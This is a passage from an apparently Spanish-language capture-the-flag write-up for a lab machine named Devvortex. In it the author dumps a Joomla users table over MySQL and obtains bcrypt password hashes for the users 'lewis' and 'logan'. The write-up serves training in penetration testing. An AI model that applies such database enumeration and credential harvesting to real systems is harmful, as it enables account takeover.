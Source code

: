| sd4fg_user_mfa                |
| sd4fg_user_notes              |
| sd4fg_user_profiles           |
| sd4fg_user_usergroup_map      |
| sd4fg_usergroups              |
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+
71 rows in set (0.00 sec)
</code></pre>

Al revisar los valores de esta tabla, logramos obtener el hash de la contraseña del usuario `logan` el cual no disponíamos de acceso a él y si bien recordamos, disponía de `bash` para acceder al sistema.

```bash
mysql> SELECT * FROM sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2025-02-05 23:01:42 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.00 sec)
```
